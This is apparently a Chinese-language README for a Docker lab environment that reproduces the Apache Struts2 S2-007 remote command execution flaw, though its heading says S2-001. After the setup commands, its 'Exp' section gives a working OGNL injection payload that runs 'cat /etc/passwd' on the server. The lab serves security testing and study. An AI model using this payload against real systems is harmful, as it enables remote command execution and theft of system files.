

## Struts2 S2-001 漏洞环境

### 漏洞信息

 * [S2-007 公告](http://struts.apache.org/docs/s2-007.html)

参考 [http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html](http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html)

### 获取环境:

1. 拉取镜像到本地

 ```
$ docker pull medicean/vulapps:s_struts2_s2-007
 ```

2. 启动环境

 ```
$ docker run -d -p 80:8080 medicean/vulapps:s_struts2_s2-007
 ```
 > `-p 80:8080` 前面的 80 代表物理机的端口，可随意指定。 

### 使用与利用

访问 `http://你的 IP 地址:端口号/`

#### Exp

命令执行(命令加参数：getRuntime().exec('cat /etc/passwd'))

```
' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('cat /etc/passwd').getInputStream())) + '
```




